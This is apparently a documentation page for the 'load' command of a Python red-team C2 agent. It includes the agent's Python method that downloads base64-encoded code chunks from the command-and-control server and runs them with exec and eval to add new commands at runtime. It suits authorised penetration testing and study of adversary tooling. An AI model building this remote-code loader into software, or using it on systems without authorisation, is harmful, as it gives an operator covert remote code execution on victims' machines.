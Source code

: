 +++
title = "load"
chapter = false
weight = 100
hidden = false
+++

## Summary

This loads new functions into memory via the C2 channel 

- Python Versions Supported: 2.7, 3.8
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500  

### Arguments

## Usage

```
load cmd
```

## MITRE ATT&CK Mapping

- T1030  
- T1129 

## Detailed Summary
The associated command's python files (selecting the correct Python version where necessary) is base64 encoded, and sent down to the agent to be loaded in. 

```Python
    def load(self, task_id, file_id, command):
        total_chunks = 1
        chunk_num = 0
        cmd_code = ""
        while (chunk_num < total_chunks):
            if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                return "Job stopped."
            data = { "action": "post_response", "responses": [
                    { "upload": { "chunk_size": CHUNK_SIZE, "file_id": file_id, "chunk_num": chunk_num }, "task_id": task_id }
                ]}
            response = self.postMessageAndRetrieveResponse(data)
            chunk = response["responses"][0]
            chunk_num+=1
            total_chunks = chunk["total_chunks"]
            cmd_code += base64.b64decode(chunk["chunk_data"]).decode()

        if cmd_code:
            exec(cmd_code.replace("\n    ","\n")[4:])
            setattr(medusa, command, eval(command))
            cmd_list = [{"action": "add", "cmd": command}]
            responses = [{ "task_id": task_id, "user_output": "Loaded command: {}".format(command), "commands": cmd_list, "completed": True }]
            message = { "action": "post_response", "responses": responses }
            response_data = self.postMessageAndRetrieveResponse(message)
        else: return "Failed to upload '{}' command".format(command)
```

Notably, this implementation implements chunking for this function to facilitate large functions being loaded.